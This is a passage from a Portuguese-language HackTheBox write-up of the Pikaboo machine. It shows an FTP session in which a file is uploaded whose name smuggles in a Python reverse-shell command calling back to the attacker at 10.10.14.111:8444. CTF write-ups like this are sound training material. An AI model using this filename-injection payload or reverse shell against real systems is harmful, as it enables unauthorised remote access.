 O que precisamos fazer é setar um `netcat` na porta 8444 e enviar nosso arquivo para o diretório versions, que é onde temos permissão de escrita.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:hastur): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd versions
250 Directory successfully changed.
ftp> put "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.111\",8444));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(\"sh\")';.csv"
local: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.111",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.111",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv
sh: 1: .csv: not found
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> 
```

<img src="/img/htb/htb-pikaboo-12.png">
